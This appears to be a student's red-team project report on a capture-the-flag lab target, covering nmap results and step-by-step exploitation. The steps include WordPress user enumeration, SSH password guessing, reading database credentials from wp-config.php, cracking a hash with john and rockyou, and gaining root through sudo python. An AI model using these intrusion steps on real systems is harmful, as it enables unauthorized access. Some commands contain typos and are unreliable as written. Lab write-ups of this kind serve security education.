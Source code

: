 # Red Team: Summary of Operations

## Table of Contents
- Exposed Services
- Critical Vulnerabilities
- Exploitation

### Exposed Services

Nmap scan results for each machine reveal the below services and OS details:

```bash
$ nmap ... nmap -sV 192.168.1.110
```
![nmap](https://github.com/Dornsbach/Final_Project/blob/2cb4e4d2784e5efad2b03b91cc428ec39f58b576/nmap.PNG)

This scan identifies the services below as potential points of entry:
- Target 1
  - 22/tcp ssh
  - 80/tcp http
  - 111/tcp rpcbind
  - 139/tcp Netbois
  - 445/tcp Microsoft-ds




The following vulnerabilities were identified on each target:
- Target 1
  - Vulnerable Word Press (wpscan user enumeration)
  - Weak user password
  - Misconfigured User Privileges leading to privilege escalation
  - Unsalted passwords


### Exploitation


The Red Team was able to penetrate `Target 1` and retrieve the following confidential data:
- Target 1
  - `flag1.txt`: `b9bbcb33ellb80be759c4e844862482d`
    - **Exploit Used**
      - WPscan was used from the attack machine to enumerate the users on the Target1 wordpress site
      - The Command use
        - `wpscan --url 192.168.1.110/wordpress/ -e u`
      - SSH'd into `192.168.1.110` using the user `Michael` guessed the weak password `michael`
      - Navigated to /var/wwww/html/
      - Ran `nano services.html` and in the footer information found Flag1
![Flag1](https://github.com/Dornsbach/Final_Project/blob/2cb4e4d2784e5efad2b03b91cc428ec39f58b576/Flag1.PNG)

  - `flag2.txt`:`flag2{fc3fd58dcdad9ab23faca6e9a3e581c}`
    - **Exploit Used**
      - Flag2 was located while exploring `Target1` to find other potential useful files.
      - `cd ..`
      - `ls`
      - `nano flag2.txt`
![flag2](https://github.com/Dornsbach/Final_Project/blob/2cb4e4d2784e5efad2b03b91cc428ec39f58b576/Flag2.PNG)

 - `flag3.txt`:`flag3{afc01ab56b50591e7dccf93122770cd2}`
    - **Exploit Used**
      - During infiltration `wp-config.php` was found at `/var/www.html/wordpress`
      - `nano wp-config.php` and found the admin user is `root` and the password is `R@v3nSecurity`
      - `Crtl X` to exit nano.
      - `myspql --user=root --password=R@v3nSecurity -h 127.0.0.1` to enter the database
      - `showdatabases;` to view databases
      - `use wordpress;` to use the wordpress database
      - `select * from wp_posts;` to find flag3 and flag4 in wp_posts.
      - `select * from wp_users;` to find users and password hashes.
![dbusername](https://github.com/Dornsbach/Final_Project/blob/2cb4e4d2784e5efad2b03b91cc428ec39f58b576/databasepswrd.PNG)
![Flag3](https://github.com/Dornsbach/Final_Project/blob/2cb4e4d2784e5efad2b03b91cc428ec39f58b576/Flag3and4.PNG)

 - `flag4.txt`:`flag4{715dea6c055b9fe3337544932f2941ce}`
    - **Exploit Used**
      - Simple password and unsalted hash
        - Created a hash.txt that contained user `steven` hash `$P$Bk3VD9jsxx/loJoqNsURgHiaB23j7W/` on attacking machine
        - Copied `Rockyou.txt` from `/usr/share/wordlists/rockyou.txt wp_hashes.txt` incase it is needed for another hash crack. 
        - Ran `john hash.txt --wordlist=rockyou.txt` and found that the password is `pink84`
        - Ran `-ssh steven@192.168.1.110` using pink84 as the password. 
        - Ran `sudo python -c "import pty;pty.spawn('/bin/bash')"` this gave Root privileges
        - `CD /root`
        - `ls` saw flag4.txt
        - `cat flag4.txt` to find the flag. 
        ![flag4](https://github.com/Dornsbach/Final_Project/blob/2cb4e4d2784e5efad2b03b91cc428ec39f58b576/Flag4.PNG)
